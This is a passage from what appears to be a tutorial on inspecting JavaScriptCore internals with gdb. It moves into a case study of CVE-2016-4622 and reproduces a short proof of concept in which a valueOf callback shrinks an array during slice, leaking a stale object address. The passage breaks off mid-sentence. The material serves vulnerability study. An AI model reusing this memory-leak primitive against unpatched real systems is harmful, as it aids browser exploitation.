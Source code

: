Obviously is possible to set convenience variables also using the python API

```
>>> obj = addr.cast(jsc_cell_type_pointer)
>>> gdb.set_convenience_variable('miao', obj)
>>> print(gdb.parse_and_eval('*$miao'))
{
  static StructureFlags = 0x0, 
  static needsDestruction = 0x0, 
  static TypedArrayStorageType = JSC::NotTypedArray, 
  m_structureID = 0x163, 
  m_indexingType = 0x0, 
  m_type = JSC::FinalObjectType, 
  m_flags = 0x0, 
  m_cellState = JSC::CellState::NewWhite
}
```

## Use gef with JSC

TODO

## Case study: CVE-2016-4622

Now that we have a deeper understanding of the ``JSC`` internals should be easier understand
what saelo was talking about.

To automatize the analysis you can use the following ``gdb``'s [script](/code/javascriptcore/bp.gdb)
that sets breakpoints in important points to see what the vulnerability is actually "doing".

To summarize the PoC we have the following lines

```
>>> obj = {a: 1, b:2}
[object Object]
>>> a = [];for (var i = 0; i < 100; i++)a.push(i + 13.37);
>>> var b = a.slice(0, {valueOf: function() { a.length = 0;c=[obj];return 4;}});
>>> b
13.37,14.37,8.4879831644e-314,4.6843036111784e-310
```

I can retrieve the addresses

```
>>> describe(obj)
Cell: 0x7f9dd5fdfe00 (0x7f9dd5f8f800:[Object, {a:0, b:1}, NonArray, Proto:0x7f9dd5fcbff0, Leaf]), ID: 372
>>> describe(b)
Cell: 0x7f9dd5fcbcd0 (0x7f9dd5ff8380:[Array, {}, ArrayWithDouble, Proto:0x7f9dd5fd76d0, Leaf]), ID: 121
```

and take a look from ``gdb`` and see that the forth value in the butterfly is the address of ``obj``:
